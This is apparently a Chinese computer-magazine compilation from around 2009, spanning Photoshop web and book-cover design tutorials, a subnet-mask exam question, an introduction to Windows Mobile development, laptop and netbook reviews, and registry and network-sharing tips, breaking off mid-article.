下面为网页头部添加图标装饰。首先使用圆角矩形工具绘制一个矩形，此矩形可自动形成一个图层。点击图层面板上的“添加图层样式”按钮，为此矩形添加“投影”和“渐变叠加”两种效果。如果感觉渐变的颜色过重，可点击图层样式对话框中的“渐变”色条重新配色。

旋转矩形的方法为：在图层面板上点选矩形所在图层，然后按Ctrl+T键，矩形四周将出现多个方形锚点，拖动这些锚点即可调整矩形的大小，此时将光标移到矩形之外，光标将变成弯曲的箭头状，这时按下鼠标左键拖动就可以旋转矩形了。调整完毕，按回车键，或者鼠标在矩形内部双击，即可定形。

最后加上文字及LOGO，一个立体感的图标就制作完成了。

3. 立体的导航条

现在我们接着添加页面导航条。本例中导航条的形状稍有点特别，它上边两只角是圆角，下边两个则是方的。这个其实很好制作：首先用椭圆工具绘制一个长的圆角矩形，调整好长度和大小后，在图层面板中右击此形状图层，选择“栅格化图层”。然后，使用矩形选择工具选取圆角矩形的下面部分，按Delete键删除，我们希望的效果就出来了。

接下来为此矩形添加图层特效。进入图层样式面板后，先勾选左侧“投影”项，右侧设置混合模式为“正片叠底”，不透明度为50%，角度为90度，最关键的是将下面的距离设置为0。接着勾选左侧“内阴影”，它的关键设置是：混合模式右侧的颜色设置为灰度而非纯黑，下面的距离为7像素，阻塞为100%，大小为0。当然你可以根据实际情况微调。再接下来，勾选“渐变叠加”，按前面的方法设置即可。

4. 其他内容

从上面的操作可以看出，在Photoshop中，实际是将网页当成图片来制作的，你想要什么样的图形效果，就可以制作出什么样的效果，具体步骤不再详述，本例的成品，如图1所示。（本例教程收集整理自网络）

图片网页大变身，从PS到DW

在Photoshop (PS)中制作好网页框架之后，还需要转换成网页，然后导入Dreamweaver (DW)中进行修改调整，最后才能上传到网上。

图片转网页之前，需要先进行切片处理。在Photoshop中制作好网页图片后，选中工具箱中的切片工具（快捷键为K），然后根据需要将其中相对独立的部分切分出来。每个切片方框上都有锚点，拖动它们可以精确调整切片的大小。切分完毕，单击菜单“文件→存储为Web和设备所用格式”，在这里可以对导出图形进行优化处理。最后单击“存储”将当前图片保存为网页就可以了。现在在浏览器中打开导出的网页，会发现它与我们在Photoshop中的设计几乎毫无差别。不过别着急，事情还远没有结束，接下来还需要在Dreamweaver中对网页进行修改和完善。一般在Dreamweaver中对网页的修改操作有：把占位的文字部分的图片删除掉，替换成真正的文本；把占位的一批图片删除掉，替换成相等大小的GIF、Flash动画、视频等；以及其它部分的微调、后台程序调用等。这样处理之后，一个真正的个性化网页作品就算完成了。

教育部考试中心 考场小贴士：

笔试篇：笔试时间全国统一，9月19日上午9时开始。提醒一些不注重细节的考生注意：涂写答题卡时一定清晰无误，按照卡上的示例填涂。这个提醒源自每次考后读卡时均有考生因不符合填涂要求被读卡机退回，然后由现场老师根据卡上信息帮助重新填涂，由此造成的结果就是或影响得分，或耽误评分。

上机篇：上机考试时间根据各个考点的批次安排略有不同。考生在考前应及时到考点查看考试时间，切勿因此耽误考试。考试期间注意严格按照题目要求作答，所有结果文件都要保存在考生文件夹内。由于机试评分采用计算机自动评分，所以任何不按照要求操作的结果均不得分，而每次考后总有考生为此无法通过考试，尽管其作答也许是正确的。

-   (3) 如果一台主机的IP地址为20.22.25.6，子网掩码为255.255.255.0，那么该主机的主机号为：
    A) 6
    B) 25
    C) 22
    D) 20
    此题是一道典型的根据主机IP地址和子网掩码计算主机号的计算题。首先，考生要了解子网掩码的定义，IP协议规定，在子网掩码中，与IP地址的网络号和子网号部分对应的位用“1”来表示，与IP地址的主机号部分对应的位用“0”表示。由于子网掩码“255.255.255.0”可知“255.255.255”代表网络号，“0”代表主机号，由此可知试题中给定的主机IP地址中“20.22.25”部分为网络号，“6”代表主机号，所以该题的正确答案为A。根据主机IP地址和子网掩码计算主机号或者子网号的题目是三级网络技术考试中经常选用的试题类型，通过该类题目可以使得考生在实际的网络分配、子网划分等方面掌握应该掌握的最基本知识。

我爱Windows Mobile 与WM的第一次亲密接触


本文作者谭剑，网名“呼吸”，从事.Net开发及软件研发管理多年，曾主持某省移动警务等重点项目研发。现任爱建通信研发部部长、蓝杰科技.Net技术专家。

工作、生活、娱乐，微软一直是在向人们倡导一种新的生活方式，而Windows Mobile系统（简称WM）就一直沿着这个理念一步步的进化。根据2009年第2季度智能手机操作系统占有率统计9%的用户为WM用户。虽然离第一名还较远，但背靠大树好乘凉，有微软在，WM的前途还是很美好的。

1.  我为什么选择了 WM

我身边的人很多都选择了WM，他们的理由也有很多，综合使用后的感受大概如下：

-   1. 受高手影响，加上界面类似于台式机的Windows，便于熟悉电脑的人操作。当然对于电脑不熟悉的人用起来就有些复杂，同时也有Windows系统越用越慢等“特色”。
-   2. 预装软件丰富，内置Word、Excel、PowerPoint，可浏览甚至编辑，内置IE、Media Player。
-   3. 电脑同步非常便捷，完全兼容Outlook等。
-   4. 第三方软件丰富，借助第三方软件，WM的办公、多媒体、娱乐能力大幅度提升。

2.  最容易入门的 WM 开发

作为“移动版的Windows”，该操作系统的设计初衷便是尽量接近于桌面版本的Windows。除了UI接近桌面版Windows之外，其应用软件平台也是建立于Microsoft Win32 API的基础之上。这就意味着，对于开发者，特别是初入行的开发者来说，WM有着与传统Windows桌面程序一样的开发环境，有着与传统Windows桌面开发类似的API和框架，而且有着极其详尽的开发文档。这样，相对于其他智能手机操作系统，WM程序开发的门槛较低，在全世界范围内，WM拥有非常庞大的开发者队伍。这些开发者，为WM开发出了大量高质量的第三方软件，同时，又能为后来者提供大量的技术指导。可以这么说，与桌面Windows系统一样，WM是智能手机操作系统中开发者生态系统最为完善的。WM也是最适合初学者的开发平台。正因为如此，我们在这一个系列，选择了WM平台。



3.  前途！ 钱途！

也许，很多朋友学习WM开发，是出于兴趣与爱好，但是我想，更多的是希望将来能够将其作为职业与事业。经济社会，前途大抵等于钱途。目前，互联网的触角已经延伸到我们生活的每个角落，而当前的互联网，正在从电脑网络时代过渡到手机网络时代，而这个过渡，以及即将全面到来的手机网络时代，其实质部分实质上便是依赖于能够连接高速移动宽带的、具有开放式操作系统和数据处理能力的、超便携的掌上终端——智能手机。今年全球智能手机销量将超笔记本电脑，将达到1.8亿部。而根据权威机构预测，这个数据在5年内更将达到10亿部。我们可以想象，那个人手一机甚至人手多机的时代，正在扑面而来。这便是整个智能手机的市场，一个将远超PC市场的庞大蛋糕！我们再来看看智能系统中的WM，经过近十年的发展与开拓，WM的市场占有率已经稳定在第三四位。但是，排在前两位的Symbian与RIM，因其架构过于老旧，目前已初现颓势。而且Symbian与RIM的开发门槛相对较高，只有比较有实力的厂商才有能力对其进行支持。正因为如此，这两个系统下，少有成熟的行业应用项目。而反观WM，由于其通过与Windows系列其他产品搭配，可以拥有成套的企业级解决方案，再加上其开发成本相对较低，正越来越广泛地应用于行业应用中。大家只要浏览一下各大招聘网站，便会发现WM招聘的职位正在快速增加，而且待遇水平往往要比传统开发职位高一个档次。把WM作为职业，是有前途的。而对于通用软件市场，Phone的软件应用商店（App Store）在最近一年里，已经给我们带来了不少落魄程序员发财致富的神话。与Phone的封闭不同，支持WM平台的软件应用商店，已有多家浮出水面跃跃欲试。其中有微软旗下的SkyMarket，国内也有中国移动的MobileMarket，魅族软件中心以及中国电信的天翼空间等等。给你的一句话。只要肯努力只要有恒心，那就肯定能够学有所成。而且，在智能手机开发中，WM系统是入门门槛最低的。我给你的建议是，先学会一门合适的编程语言，比如C#，然后尝试开发一些Windows桌面程序做做练习。在这个过程中，可以以一个普通用户的身份对WM系统的日常应用多加体验，最后便可以尝试做WM开发了。“实践是最好的老师”，学习这门技术，别无捷径，多动手罢了。

Q: 我做APS.NET程序员有两三年了，感觉整体工资水平较低，看不到将来的发展，想要转行学习WM开发，我应该如何入手，能给我一点建议吗？
A: 目前有不少从事Web Forms、Windows Forms开发的程序员，看到了Mobile开发的前景，想往这一块转。相对于其他初学者，你们的优势是有一定的开发基础。但是，你们的劣势，也在于你们以往的开发经验。适用于WM的.NET CF是.Net框架精简而来的一个子集，你会发现，有不少原来有的而且你用得很顺手的特性，在Net CF里面并不支持。与精简框架类似，WM程序运行于一个资源有限的硬件环境之下，有限的ROM，有限的RAM，有限的CPU，有限的电池，有限的显示屏……WM程序开发，更多的应该考虑程序的效率和用户可操作性。目前WM下主流应用大抵可以分两大块：手机游戏与行业应用。有.Net开发基础的朋友，我个人建议往行业应用方面发展。首先，你之前工作中积累的业务知识，今后还用得上；其二，有以前的知识为基础，往这方面转，学习曲线要相对较为平缓，学习成本较低。



| 版本 | 发布时间 | 说明 |
|---|---|---|
| Pocket PC 2000 | 2000年4月19日 | 里程碑 |
| Pocket PC 2002 | 2002年10月 | |
| WM 2003 | 2003年6月23日 | 开始使用Windows Mobile命名 |
| WM 2003 SE | 2004年3月24日 | Windows Mobile 2003第二版 |
| WM 5 | 2005年5月12日 | 已退市，保有量仍相对较大 |
| WM 6 | 2007年2月12日 | 保有量相对较大 |
| WM 6.1 | 2008年4月1日 | 当前市场主流版本 |
| WM 6.5 | 2009年10月 | 已有部分机型开始发售 |
| WM 7 | 2010年11月（预计） | 开发中 |

WM 初学者对话

在工作学习与生活中，笔者有幸与很多初学者通过网络或者面对面进行沟通交流，下面摘录一些初学者对话与《电脑爱好者》的读者分享。

Q: 我想要学习WM开发，但是我没有编程基础，请问WM软件开发难吗？我有没有可能学会？
A: “世上无难事，只要肯攀登”。这是我最想送给你的一句话。只要肯努力只要有恒心，那就肯定能够学有所成。而且，在智能手机开发中，WM系统是入门门槛最低的。我给你的建议是，先学会一门合适的编程语言，比如C#，然后尝试开发一些Windows桌面程序做做练习。在这个过程中，可以以一个普通用户的身份对WM系统的日常应用多加体验，最后便可以尝试做WM开发了。“实践是最好的老师”，学习这门技术，别无捷径，多动手罢了。

Q: 我是一名大三学生，再过一年就面临毕业找工作了，但是学校的专业课显得很宽泛，这让我感到焦虑。我想自己向WM开发方面发展。但是作为在校学生，我们对外面的世界了解有限。请问企业里面WM开发人员待遇水平怎么样？请问企业对WM开发人员的专业要求都有哪些？
A: 目前，移动开发这一块的整体待遇水平，比传统的Web开发、桌面开发的都要高出一个档次，算是程序员里面待遇水平比较高的一块了，通常不低于7000元。对于应届毕业生，企业可能比较看重你的基础知识，你的学习理解能力以及你将来的发展前景。但是，与所有的技术工种一样，最重要的，就是你要能够尽快上手干活！在学生阶段，建议加强学习，多思考，多练习。有可能的话，可以拿一些实际应用的项目做练习，或者加入企业开发团队做实习。

平面设计师生存手册：方寸之间天地宽

出版业是平面设计很大的一个应用领域，书籍设计又是出版业中一个比较大的需求。书籍设计主要分两大部分：封面设计和内文排版。前几期中已经介绍了一些杂志内文版式设计方法，今天我们主要聊聊封面设计。

芝麻开门

CFan：封面设计的“钱”途在哪里？
业内人士：一般的出版社或图书公司，会有自己专门的设计部门，负责图书的内文排版及封面设计等，有时排版员和封面设计由同一人负责，也有分开制作的，这一领域对设计人员的需求量较大。另外，对于不喜欢上班约束的人来说，可以成立自己的工作室（或只是兼职），从出版社（或其他途径）外包一些项目。对于个人承接的项目，现在的市场行情大致如下：

| 产品 | 类别 | 价格 | 备注 |
|---|---|---|---|
| 一般书籍 | 32开 | 1500元 | 封面+封底 |
| 一般书籍 | 16开 | 2000元 | 封面+封底 |
| 小说书籍 | 大32开 | 3000元 | 封面+封底+腰封 |
| 杂志封面 | 大16开 | 2000元 | 封面+封底 |
| 科普书籍 | 大16开 | 3000元 | 封面+封底 |
| 书籍装帧 | 16开 | 1500~5000元 | 书籍整体设计，包括封面、扉页、插图等。 |

注意，上面的项目基本已包含出片及打样的费用。另外，以上只是一个大概的价格表，各人会根据实际谈判情况有增有减。比如项目多的话，可按“批发价”收费，适当降低费用，以争取长期合作等。

任务实战

学习封面设计，首先要熟悉一些专业术语，免得在与客户谈判时显得外行。这里简单介绍一些封面设计时常用的术语。
成品尺寸：即图书页面印刷出来并裁切之后，最终成品的实际尺寸。
勒口尺寸：有些书的封面比内页长很多，需要折进去，折起的这部分即为勒口，封面部分为前勒口，封底部分为后勒口。设定勒口尺寸时，以封面封底宽度的1/3～1/2为宜。
书脊厚度：即书脊的宽度。
出血：在软件中设计封面时，四边要比成品尺寸多出一部分（一般为3毫米），这一部分即为“出血”。
腰封：也称为“书腰纸”，是包裹在图书封面中部的一条纸带，一方面起到外部装饰的作用，另一方面可利用它做一些宣传（见图1）。



实战1：设计自己的第一个封面

在进行封面设计之前，首先要向客户索要相关内容，作为书籍封面，一般要有书名、作者/编译者署名、出版社名。封底则包含责任编辑、封面设计者、书号、定价、条形码等信息。有些书的封面及封底，还要添加宣传的内容，如名家推荐、同系列书推荐等，这些也得事先向客户咨询、索要。下面的例子，假设为CFan的一本图书（虚拟图书）设计封面（见图2），你可以随意替换成自己的内容。

定尺寸搭建封面舞台

无论是在Photoshop、Illustrator，或是InDesign中制作封面，首先要定好尺寸大小。一般来说，封面封底书脊是连在一起设计的，所以文件尺寸，高度等于图书高度，宽度则为封面封底书脊的宽度之和。如图3所示，是设计《电脑爱好者》图书时的标准尺寸（16开），图4则是假设图书有勒口时的大小示意图。




标尺，将光标移到标尺上，然后按住鼠标左键不放并拖动，即可拖出参考线。参考线是方便设计过程中对齐或测量的，在打印的时候，这些参考线是不会出现的。如图5所示，拖出6条参考线，其中边缘的4条线表示出血线，中间的2条线表示书脊的位置。

置入酷炫背景

封面设计的风格，应根据图书的主题而定。比如悬疑小说，可以应用一些黑色背景的图片来突出神秘感，再比如一些讲解设计类的书籍封面，为了突出书本的某种设计理念，甚至任何图片都不用，而仅仅是一些文字的特殊排列等。我们假设本例是一本帮助读者自助北京游的书，那么选用典型的北京风景图片作为背景，应是一个不错的选择。
单击“文件→置入”菜单命令，选择准备好的风景图片置入刚才创建的文档中。置入的图像，四周显示8个锚点，拖动这些锚点，可以任意缩放图片的大小，调整好之后，在图片中间双击，固定它就可以了（见图5）。

添加封面文字

书名等文字，是封面上的重要信息。在工具箱中点击文字工具（快捷键为T），然后在上方文字工具栏中，设置字体、大小、颜色、风格等，设置完毕，在图像上点击，输入相应文字并排列好位置就可以了。
如果感觉文字过于单调，可以为它们添加一些特殊效果。在图层面板上，选中文字图层，再点击下方“fx”按钮（添加图层样式），选择“投影”，在打开的图层样式对话框中，设置投影各项参数（如本例中，角度为150，距离为15，扩展为25等），然后再勾选左侧的“斜面和浮雕”，如图7所示进行设置，即可得到立体字效果。
同样方法添加其他文字，包括封底、书脊上的内容等，最终可获得前面所示的效果图了。

网络大补贴：

学习封面设计的朋友，可以多逛逛网上书店，抱着只看不买的态度，多多欣赏、学习各类时尚新潮的图书封面设计，因为网上书店，几乎每一本书都提供封面预览图片，甚至会提供部分内文内容。比较大的网上书店有：
亚马逊（英文）：http://www.amazon.com
卓越亚马逊：http://www.amazon.cn
当当网：http://www.dangdang.com
中国互动出版网：http://www.china-pub.com



## 买本3000元1年 还是5年5000元

进入2009年，伴随着如同金融危机“狼来了”一样的呼声，大家都在拼命地杀价，推新品，搞促销。产品的价格更是一泻千里，经常你能看到2999元的全功能笔记本，3999元的笔记本甚至可以装备5000元-6000元机型才会采用的中端独立显卡！那么，在近似配置的情况下，这些超低价本本究竟靠什么把自己的“利润”割舍出来，“奉献”给广大消费者呢？

## 有人担心：2009年的低价风会让笔记本厂商猝死！

低价会让厂商猝死的原因在哪里？在于品牌价值，也许它可以通过疯狂的销售实现利润，但是在这之后，你的售后服务、产品品质，是否能够一如既往地保持在较高水平，这要打上一个大大的问号。“今年不少厂商都在疯狂地打低价牌，为了低价又能保证利润，削减制造成本就成了必然。当某一类产品只以价格为基准来衡量的情况下，那制造它的厂商就快面临死亡宣判了——没有好的产品，谈什么发展，消费者凭什么去接受你？因此我认为，只有坚持品质才是最基本的。在这基础上提供更多的功能、更低的价格完全可以理解，但不能本末倒置。”某笔记本厂商的产品经理表示。

## 有人偷笑：低价我们照样有利润！

低价真的有利润吗？这位产品经理分析到：“以LCD屏幕做例子，受到上游供应的限制一直在涨价，而且缺货，这种情况下，你还要把笔记本的价格进一步拉低，总不能把LCD屏幕去掉吧？那就要从其他方面入手了。能用3个电容搞定的事情，绝对不会为了稳定性增加到5个电容。这样你在使用时又不会感觉到什么，即便卖的是低价本，但它的利润依旧存在。”厂商销售低价本之所以还能赚消费者的钱，是因为它在你看不到的地方省了钱。比如神舟笔记本电脑，它的价格一向就很便宜，配置也很高，但是它的外壳可能是没有喷过漆，仅仅是ABS工程塑料的“本色”，甚至有部分笔记本采用4层PCB板，而不是笔记本电脑主板常用的6层、8层PCB板（注：PCB板的层数将影响电子设备的电气性能，一些故障隐患就由此而来）。

## 有人担忧：1年就坏，买来用还是买来看？

随便翻开一些论坛，你能看到的对神舟笔记本电脑的评价，除了部分人肯定了它的低价之外，几乎一边倒的都在抱怨产品质量的问题，便宜，终究是没有好货的！都是低价本，为什么国际品牌的产品故障率就要低很多？同样是2999元，联想G430L与神舟承运F200T的配置几乎相等，但不同的是，联想选择为G430L提供更多的功能化设计，包括外观，但神舟却选择为F200T配备了独立显卡。乍一看似乎神舟的性价比更高，但是他把大部分成本都用在单纯的配置规格上了。看看各大论坛中对神舟产品的抱怨吧，不少产品甚至连保修期没过就问题不断，相反，联想的故障率就要低很多，这就应了我们所说的“3000元1年还是5年5000元”，如何选择，相信消费者都有了自己的看法。

## 有人建议：低价不是保险，如何向高质发展？

其实低价并不可怕，但是不能以牺牲产品品质为前提。像神舟电脑那样，价格足够便宜，但是它真的能够满足消费者需要吗？质量能够保证吗？很难。面对山寨产品，神舟正在失去他赖以生存的低价法宝——越来越简单的装配制造方式，让这些无名无姓的企业也有机会来分一杯羹。但是，他们能够分到的，绝对不是属于联想、惠普、戴尔、Acer的市场空间。早年的彩电行业，低价策略让自主品牌越做越小，但当他们开始依靠自主研发，提升产品的功能、价值时，反倒是占据了大半江山，国外品牌一个接一个地退出市场——洋品牌的空间越来越小，通过创新，本土品牌哪一个不是红红火火？所以，我们认为只有合理的价格+创新，才是企业生存的法宝，一味在价格上做文章，只能是自绝后路。

## 吃螃蟹！3G上网本初体验

一直就等着3G上网能够开通，这几年为了能实现移动上网，经常在网上搜索什么漏洞卡之类的产品购买，主要是为了省钱，毕竟那几十KB/s的流量速度实在让人难以忍受，包月不限时是必然的。现在3G上网推出了，价格虽然高了不少，但毕竟是属于准宽带了，下个狠心，买吧！

上星期去移动公司办理了3G业务，靠着高额的补贴政策，我把3G上网本海尔X105拿回了家。相当于2100元的话费，而本本只花了600多元，还是比较超值的。要说起来，中国移动100元包2GB流量每月的套餐性价比很一般，远不及中国电信的150元包300小时每月的。不过，高额的补贴政策又打动了我——一直惦记买个小本，这回可好了，3G+上网本一网打尽！

拿到家第一件事自然就是试用3G上网了，先将3G的SIM卡安装到海尔X105的SIM卡插槽中，开机进入系统后，立刻运行G3随e行，点击“自动连接”，系统就自动为我拨号了。

因为是2G和3G网络自动识别，有时候可能会因为信号不稳定自动切换到2G网络上，如果要强制连接，就必须在“自动连接”按钮的旁边点选那个小三角图标，改用手动连接。

连接到3G网络后，左下角会显示“HSDPA CMCC”，如果只是EDGE，那说明连接的还是2G网络。在室内信号几乎满格的情况下，我发现3G网络的速度还是不够稳定，快的时候甚至能超过我的1Mbps ADSL，但慢的时候也就是EDGE的速率。当然，这也有好处，反正是按照流量算包月，大不了就是多等一会，刷新慢点也不要紧了。

## 使用感受

- 海尔X105从满电到电池耗尽的3个半小时，期间几乎都在上网，浏览网页，看各种视频，开了2个QQ，1个MSN，量是下载166MB多点儿，算起来2GB流量真是有点不大够用。只是偶尔遇到信号盲区就比较烦人，需要断开重新连接才能使用。随后的几天，发现3G上网除了能让我移动起来，别的好处似乎也没有。而且受到流量限制，总是担心超流量，使起来还是不踏实。
- 再说海尔X105，随后的几天时间里，经常拿着海尔X105出门，路上开了机想上网查查地图什么的，发现屏幕的反光还是比较厉害，必须找阴凉处才能看清屏幕内容，而且亮度还不用调得太低。另外待机时间还是偏短，如果能够再配块大容量电池应该会好很多。
- 海尔X105配置上确实比较低，不知道这些上网本厂商是怎么想的：只给了160GB硬盘和1GB内存，而且几乎家家都一样，如果再追求低价产品，512MB内存的配备也不是没有。我这个相当于买话费送上网本，配置也就那么回事，自己升级了1GB内存，但是硬盘真有点舍不得升级了，320GB的硬盘大概是370多元，但我换下来的160GB硬盘真没什么用，移动硬盘也有了，不好处理。
- 海尔X105的按键还算舒服，这是一个不错的安慰，敲击起来比较柔软，不是很生硬。键帽的大小还算合适，毕竟是10英寸的小本本，不可能提供全尺寸键盘，有时候还是会发生误触的问题。

## 小编有话说

- 移动上网最大的变化当然是让人摆脱线缆，但是应用也不会与你在室内完全相同，建议你试试这个用法：比如用google看实时交通流量，选最好的出行路线，比听广播播报的实时交通路况还方便哦！
- 这和屏幕本身确实有关系，但另一方面，阳光直射的情况下，现有的所有屏幕（除电子墨水技术之外）技术，都无法在阳光直射下显示清楚内容，而且即便是其他介质，也尽量要避免在阳光下仔细观看，这对视力极其有害。
- 之所以上网本产品的规格最高都是160GB硬盘、1GB内存，是因为受到了微软的政策限制所致。现在的IT市场，策略远远要优于技术，毕竟现在的技术太过超前（超出软件应用的需求），所以才会出现这种情况。我们建议所有购买上网本的用户，可以直接升级到2GB内存（Atom平台的最高内存支持规格），硬盘部分可以在购买时和商家商量，是否可以更换升级，补齐差价。

此外，要注意一点，流量的计算并不是只计算下载，而是上载+上传的双向流量统计总和！

把你想说的话留在论坛如果你有用笔记本电脑、台式机的经验、技巧，哪怕是牢骚，都可以到我们的论坛中发帖留言：http://bbs.cfan.com.cn/forum-275-1.html 或者，你也可以通过邮件来讲述自己的故事：yingqz@cfan.com.cn 如果你想分享自己的用机经历，也欢迎大家踊跃发帖或发E-mail哦！

## 自定义华硕本本的Instant Fun快捷键

不少华硕本本都有Instant Fun快捷键，这个按键号能够免开机播放音乐，但实际情况是这个多功能键除了被当做第二开机按钮之外，几乎没什么功能。如何把这个闲置的快捷键真正利用起来呢？首先，你要确定你的本本拥有这个按键，它并非存在于所有的华硕本本上。然后，你还需要安装ATK 0100和ATK MEDIAQ驱动程序。注意，这两个驱动程序必须与你的机型对应，否则可能出现问题，通过搜索华硕官方网站或是驱动之家一类的专业网站都能够找到。

然后修改注册表，在开始菜单的运行中输入“Regedit”回车，在左侧的树状列表中分级找[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Multimedia\WMP Player]项，在右侧找到Player.Path，双击弹出新窗口，将你要依靠Instant Fun键启动的程序绝对地址复制在这里。需要注意的是，如果你的本本上装有ASUS DVD或是Instant Fun程序，务必要将其卸载掉，否则即便修改注册表，也会启动这两个程序中的其中一个，而不是你修改后想要运行的程序。这样一来，你就可以用Instant Fun键来启动你最常用的程序了，而不是华而不实的Windows Media Player。

## 找回惠普本本失效的快捷键

小赵的惠普前两天重装了系统，但突然发现无论是静音键、音量键、乃至无线开关统统都失去功效了。重新安装了一遍HP Quick launch button驱动程序及Quick launch button应用软件，一样还是不能操作。

网上找了半天资料，发现自动关机竟然可以让快捷键恢复正常工作状态。拔掉电池开机，进入系统后将电源拔除，再启动电脑，果然好了！这可太奇怪了，难道只能这样解决故障吗？

后来经过研究发现，真正好用的解决办法还是修改注册表，Quick launch button安装好之后，会自动添加一个启动项QlbCtrl，如果不能正常启动加载这个文件，控制功能就一概不起作用。

点击“开始→运行”键入“Regedit”回车，找到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion \Run]下的QlbCtrl，双击该键值，将%ProgramFiles%修改成C:\Program Files，由变量的相对地址变成绝对地址，这样问题就能解决了。
（文/TKD）

## 关屏怎会牵连ADSL

新买的Thinkpad R400，一直用得好好的，但最近发现本本设定了闲置时关闭屏幕（10分钟）后，再开启的时候ADSL总是断线重拨！这非常麻烦，下载基本上已经不可能了，关屏就断线，这叫人怎么用？

后来经过查找才发现，原来是电源设置中的关联选项造成的。解决的方法很容易，右键单击任务栏下方的Think电源管理器图标，选择“启动电源管理器”，然后在弹出的界面中，选择“全局电源设置”，找到“事件”一项，在下拉菜单中，去掉“启动立即恢复”项，确认后，这个故障不存在了。
（文/TKD）

## 山寨手机是重灾区

“山寨机”这个国内专有名词，近些年来着实火热。自从手机牌照取消之后，宛如雨后春笋般的山寨品牌便茁壮成长。MTK系统是它的最爱，晓人的创意，拉风的外观以及抄袭大牌产品的设计是它赖以生存的国地，而价格低廉则是抢夺用户制胜的法宝。以往我们说道山寨手机，只是片面的看到皮毛——抄袭仿造，忽视了它最为可怕的地方：完整的产业链和行销体系。现在山寨手机不仅仅是依靠卖几台赚几合作坊式运作了，几乎一两个月就从功能、造型等进行一次更新，顺应时代潮流发展，形成了一个足以抗衡正牌手机完整地产销服务一条龙。一款未在国内大陆市场上出现的产品而漫天飞舞，也许只有我们这里才会看到，如前段时间冒出的诺基亚N97、黑莓系列，都让人着实惊叹山寨的疯狂与前瞻性。

苹果iPhone是一款非常热门的触屏手机，时尚的外观和多点触摸技术的屏幕让其受到了不少朋友的喜欢，成为不少朋友非常向往的理想手机。哪怕是已上市许久，“苹果热”依然没有减退的迹象。但该机的价格偏高，很多朋友“心有余而财力不足”。君不见无数橘子、鸭梨的东西在市场中热卖一时，蒙混了无数消费者，也让囊中羞涩的用户过了一把苹果瘾。

苹果iPhone 3G现在卖的好，山寨就出来个CiPhone 3G（China版iPhone简称CiPhone 3G），做的外观一模一样，价格1000出头。拿在手里不仔细看，您还真还瞧不出来。仔细把玩，没用过iPhone的一样看不出来。

苹果iPhone价格稳定在3000元左右，价格再低也不会突破2000元大关。所以各位看官选购的时候要小心了。商标这东西，只有“P”是大写的，有些杂七杂八的符号在里面您可要小心了！

## 超便携本本你会买吗

超便携笔记本电脑是今年新提出来的一个概念，最先出现的平台是AMD Yukon产品，之后不久Intel也拿出了自家的产品CULV，超便携本本的最大特点是尺寸在12英寸左右，配备独立显卡，但处理器采用低功耗设计。

实际上，低电压处理器可不是什么新鲜玩意儿，比如Macbook Air，Thinkpad X300，三星的X360等等，都是最典型的采用低电压处理器产品。当然，现在的超便携本本还是有些变化的，比如最大的变化就是价格低廉，售价在4000元~6000元之间。

厂商给出的定位是介于上网本和传统笔记本之间——无外乎就是“概念二字”。低电压处理器的性能要比上网本用的Atom平台高出不少，但要低于传统笔记本，性能差距在20%左右。但由于采用了独立显卡，同样的笔记本硬盘，因此它的整体性能并不差，至少不像上网本那样缺失了太多的功能。全高清（1080P）电影，众多的3D游戏，都是上网本不能做到的，而其重量一般也在1.7千克左右，这又是传统笔记本很少能比拟的。

另外，12英寸的显示面积也能够让人看起来更舒服，键盘敲击起来更轻松。体积尺寸的增加也让厂商有能力把更大的电池放到本本上，超轻薄本本通常的待机时间都能轻松超过5小时，甚至是8小时~9小时之间，这个优点是上网本也好，传统笔记本也罢，都不能与之媲美的。

对于长期出差工作，又不能忍受上网本处理能力有限的用户，它是个不错的选择。另外，时尚的年轻人也比较适合使用超轻薄本本，但像专业的商用环境，或是游戏玩家，超轻薄本本依然不能满足使用要求。
（文/JKboy）

## 大牌就是系列多：惠普篇

惠普的笔记本电脑看起来型号似乎有些复杂，但是规律性比较强，有迹可寻。这包括家用级的HP Pavilion及Compaq Presario，HP Mini，HP HDX四个系列，以及Compaq系列商用笔记本电脑，HP EliteBook商用笔记本产品。

其中，HP Mini就是上网本产品，但它实际上也分成两个子类别，其一是HP Mini消费类产品，也就是HP Mini 1000系列，而在商用部分，HP 2133及HP 2140也属于HP Mini家族的产品，它们的特点是极度轻巧；HP Pavilion和Compaq Presario则是惠普笔记本中最重要的，也是产品最多的两大产品线，前者针对主流消费群体，后者则更注重性价比。HP Pavilion除了DV2系列为超轻薄笔记本外，其余产品都是主流的配置规格（如DV3、DV6系列），Compaq Presario中CQ系列无疑是当前市场上非常火爆的产品，性价比非常高，同时还分有AMD平台及Intel平台，如CQ35等等；HP HDX则是惠普家用机产品中面向高端游戏玩家的产品，特点是性能强劲（与高端台式机性能几乎一致），尺寸较大，价格较贵。

商用产品则相对简单一点，主要分为Compaq和HP EliteBook两个系列，同家用产品一样，Compaq品牌多为性价比产品，如中小企业用户等等，而HP EliteBook则用来满足中高端商用环境（如移动工作站、图形工作站）。HP Compaq+4位数字+1个字母结尾的编号规则就是Compaq系列商用产品的特征；HP EliteBook则是目前所有品牌商用笔记本电脑中少有的精品系列，不过价格也较贵，系列中多款型号的最低起价就达到了8999元之巨。

http://welcome.hp.com/country/cn/zh/prodserv/notebooks_tabletpcs.html
（文/雨寒）

## 穿上马甲变成超薄无线路由器

- 某日朋友来看我，窄小的宿舍里有了两台笔记本，但郁闷的事情也随之而来，又没有路由器，也没有交换机等设备，难道让我们两个轮流上网？当然不行，本着遇到困难迎面而上的精神，我们决定用无线有线混合网络解决这个问题。
- 第一步：开启两台笔记本的无线网卡，选择一台笔记本A作为主机通过有线端口连接上网
- 第二步：打开笔记本A的“网络和共享中心”，点击“管理网络连接”。找到已连接好的网络（如图1的宽带2），右击选择“属性”，点击上方的“共享”选项卡，勾选“允许其他网络用户通过此计算机的Internet连接来连接”。
- 第三步：打开笔记本A的“网络和共享中心”，点击“设置连接或网络”，选择“设置无线临时（计算机到计算机网络）”，进行设置。IP地址可为默认设置，即自动获取分配，如笔记本A已分配了固定IP地址，则需将笔记本B的IP地址设置为笔记本A的子网IP。
- 第四步：笔记本B打开无线网卡后，在可用无线网络中会发现笔记本A设置的这个临时网络，双击加入输入密码就可以了，此时两台本本都可以上网了。
- 最后需要注意的是启用网络发现、文件共享、密码保护的共享。每次使用主机都要激活一次共享连接。
（安徽/李楠）

## 做菜靠手艺，煲“鸡”有偏方

煲机恐怕大家耳濡目染地已经听过很多次了，但其实煲机方法并不仅仅局限于已知的一两种，有很多偏方也同样适用。所谓老中医靠偏方说的确实有一定道理。

**高速公路坦荡荡**

